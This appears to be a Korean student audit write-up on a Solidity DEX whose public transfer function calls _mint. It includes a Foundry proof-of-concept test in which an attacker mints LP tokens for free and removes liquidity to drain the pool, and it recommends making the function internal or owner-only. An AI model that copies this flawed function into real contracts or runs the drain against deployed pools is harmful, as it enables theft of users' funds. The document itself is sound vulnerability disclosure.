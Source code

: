 # Problem - Visibility Error

## 김영운, 김지우, 구민재

### 설명

문제 발생 - transfer function

```solidity
function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) { //visibility
        _mint(to, lpAmount);
        return true;
}
```

- transfer 함수의 visibility가 public으로 설정되어 있어 누구나 호출할 수 있음
- _mint를 누구나할 수 있어 totalSupply(LP token양)를 조작할 수 있음

테스트

```solidity

contract CustomERC20 is ERC20 {
    constructor(string memory tokenName) ERC20(tokenName, tokenName) {
        _mint(msg.sender, 1000 ether);
    }

    function mint(uint amount) external {
        _mint(msg.sender,amount);
    }
}

contract DexTest is Test {
    Dex public dex;
    CustomERC20 tokenX;
    CustomERC20 tokenY;

    address player1 = address(0x1234);
    address player2 = address(0x1235);
    address player3 = address(0x1236);
    address player4 = address(0x1237);

    function setUp() public {
        tokenX = new CustomERC20("XXX");
        tokenY = new CustomERC20("YYY");

        dex = new Dex(address(tokenX), address(tokenY));

        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);

        vm.startPrank(player1);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

        vm.startPrank(player2);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

    }

    function testTransfer() external {
        vm.startPrank(player3);
        uint before = dex.balanceOf(player3);
        emit log_named_uint("before",before);
        bool t = dex.transfer(player3, 100 ether);
        uint a = dex.balanceOf(player3);
        emit log_named_uint("after",a);

        emit log_named_uint("before x:", tokenX.balanceOf(player3));
        emit log_named_uint("before y:", tokenY.balanceOf(player3));
        dex.removeLiquidity(dex.balanceOf(player3), 0,0);
        emit log_named_uint("after  x:", tokenX.balanceOf(player3));
        emit log_named_uint("after  y:", tokenY.balanceOf(player3));
        vm.stopPrank();
    }
}
```
<img width="432" alt="스크린샷 2023-03-26 오후 8 37 22" src="https://user-images.githubusercontent.com/127647051/227773104-9f0d829b-2cbd-4c8a-b556-4f3b75a8135c.png">


- player1, player2가 pool에 liquidity를 공급하였을때, player3가 100 ether를 mint하여 해당 LP token만큼 removeLiquidity할 수 있음

### 파급력

- Critical → 공격자는 mint 함수를 통해 LP token을 발행하여, liquidity를 pool에 공급하지 않더라도 pool에 있는 토큰을 모두 remove할 수 있음

### 해결방안

- transfer 함수의 visibility를 public → internal로 변경하기 또는 onlyOwner만 호출할 수 있도록 변경
